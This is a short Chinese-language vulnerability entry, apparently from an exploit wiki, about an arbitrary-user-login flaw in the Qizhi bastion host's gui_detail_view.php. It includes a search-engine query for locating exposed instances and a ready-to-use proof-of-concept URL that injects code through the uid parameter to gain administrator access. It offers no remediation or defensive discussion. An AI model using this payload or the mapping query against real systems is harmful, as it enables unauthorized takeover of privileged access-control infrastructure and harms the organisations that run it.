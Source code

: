 # 齐治堡垒机 gui_detail_view.php 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

<a-checkbox checked>齐治堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="齐治科技-堡垒机"</a-checkbox></br>

## 漏洞复现

漏洞POC为

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![img](/assets/PeiQi-Wiki/img/qz-1.png)